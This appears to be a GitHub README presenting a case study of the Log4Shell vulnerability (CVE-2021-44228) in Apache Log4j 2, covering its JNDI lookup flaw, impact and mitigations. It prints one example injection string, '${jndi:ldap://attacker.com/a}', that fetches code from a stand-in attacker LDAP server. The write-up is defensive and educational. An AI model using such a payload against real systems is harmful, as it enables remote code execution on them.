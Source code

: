 #  <p align="center"> Log4Shell (CVE-2021-44228) Case Study <p align="center">

## Overview
Log4Shell is a critical vulnerability discovered in the popular Java-based logging utility, Apache Log4j 2. This flaw allows remote code execution (RCE) due to improper input validation, making it one of the most severe security incidents in recent history.

- **CVE ID:** CVE-2021-44228  
- **Published Date:** December 9, 2021  
- **Severity:** Critical (CVSS Score: 10.0)  
- **Affected Versions:** Log4j 2.x (2.0–2.14.1)  

## Technical Breakdown
The vulnerability stems from the Log4j library’s handling of JNDI (Java Naming and Directory Interface) lookups. When an attacker sends a specially crafted request, Log4j resolves the malicious payload, allowing arbitrary code execution.

### Exploit Example:
```
${jndi:ldap://attacker.com/a}
```
This string exploits Log4j’s JNDI lookup feature to fetch malicious code from an attacker-controlled LDAP server.

## Impact
- **Remote Code Execution (RCE):** Full control over affected systems.
- **Widespread Exposure:** Affected countless applications and cloud services, including Apple, Twitter, and Minecraft.

## Solutions & Recommendations
1. **Upgrade Log4j:** Immediately upgrade to version 2.17.0 or later where the vulnerability is patched.
2. **Disable JNDI Lookups:** For systems where upgrading isn’t feasible:
   ```
   log4j2.formatMsgNoLookups=true
   ```
3. **Apply Network Restrictions:** Block outbound LDAP, RMI, and DNS traffic from untrusted sources.
4. **Security Monitoring:** Deploy Intrusion Detection Systems (IDS) to detect exploitation attempts.
5. **Code Review:** Audit custom applications for embedded vulnerable Log4j versions.

## References
- [Apache Log4j Vulnerability Guidance](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance)  
- [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
